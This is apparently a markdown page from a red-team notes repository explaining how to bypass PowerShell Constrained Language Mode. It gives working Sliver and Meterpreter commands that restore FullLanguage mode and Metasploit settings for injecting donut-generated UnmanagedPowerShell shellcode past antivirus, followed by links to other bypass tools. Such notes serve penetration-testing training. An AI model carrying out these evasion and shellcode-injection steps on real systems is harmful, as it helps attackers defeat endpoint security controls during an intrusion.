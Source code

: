 # CLM bypass
Both Sliver and Meterpreter have built in CLM bypass modules

### Sliver:

`sharpsh -- -c $ExecutionContext.SessionState.LanguageMode`
![SliverCLM](../images/SliverCLM.png?raw=true "Sliver CLM bypass")



### Meterpreter:
```powershell
meterpreter > load powershell
meterpreter > powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage
```


### UnmanagedPowerShell
https://github.com/mmnoureldin/UnmanagedPowerShell

load powershell may not work if AV is still on. UnmanagedPowershell should work. AND it has built in PowerView, PowerUp, PowerUpSQL, and Powermad. 

Use donut as shown in the video from the repo to generate the shellcode.

In meterpreter:
```
bg
use post/windows/manage/shellcode_inject

set CHANNELIZED true
set INTERACTIVE true
set session X
set shellcode /home/kali/tools/Windows/UnmanagedPS.bin

run
```
![Unmanaged Powershell](../images/UnmanagedPS.png?raw=true "Unmanaged Powershell")

###
Other projects to check out

https://github.com/beauknowstech/FullBypass

https://github.com/calebstewart/bypass-clm

https://github.com/n3rada/powerspace

https://github.com/padovah4ck/PSByPassCLM